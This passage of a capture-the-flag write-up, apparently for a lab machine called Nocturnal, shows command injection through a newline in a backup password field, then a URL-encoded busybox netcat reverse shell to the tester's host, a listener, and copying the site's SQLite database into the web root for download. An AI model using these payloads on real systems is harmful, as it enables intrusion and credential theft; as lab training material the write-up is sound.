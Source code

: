 it's easy to miss, but at the top left there is an admin panel! i'll click it.

# Exploitation Phase

these php files are cool and all, but i'm more interested in this create backup feature. i'll set a password "123" and click create backup to see what happens.

this looks suspiciously like a console output (stdout). there is potential for rce here. i'll capture the request using caido and see what the password input looks like.

i see the user input in the password field, "123" created the backup, what would happen if i inserted a 123%0aid (%0a new line feed)

`password=123%0aid`

remote code execution in the flesh. i just need to tweak this a bit to get a reverse shell.

after a bit trial and error, i settled on this.

`password=123%0abusybox%09nc%0910.10.14.168%09443%09-e%09%2fbin%2fbash`

it's a url encoded busybox reverse shell, but instead of %20(space) i used %09(tab). i also added the


`sudo nc -lvnp 443`

```
listening on [any] 443 ...
connect to [10.10.14.168] from (unknown) [10.129.46.231] 59766
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
nice, i got a shell as www-data

# Privesc to Tobias

`www-data@nocturnal:~$`

i took a peek in the home directory and noticed the user tobias, i also remembered that tobias was an account on the webserver. this means my focus is to find the webapps db file to try an extract a password for tobias.

after some light recon, i found the db file. it wasn't exactly hidden.

```
www-data@nocturnal:~/nocturnal_database$ ls
nocturnal_database.db
```

no need to do anything fancy, i'll just copy the file to the web root and download it from my browser. `http://nocturnal.htb/nocturnal_database.db`

`www-data@nocturnal:~/nocturnal_database$ cp nocturnal_database.db ../nocturnal.htb/`

i'll check the db file and see that it's a sqlite file.

```
file nocturnal_database.db

nocturnal_database.db: sqlite 3.x database, last written using sqlite version 3031001, file counter 19, database pages 5, cookie 0x2, schema 4, utf-8, version-valid-for 19
```
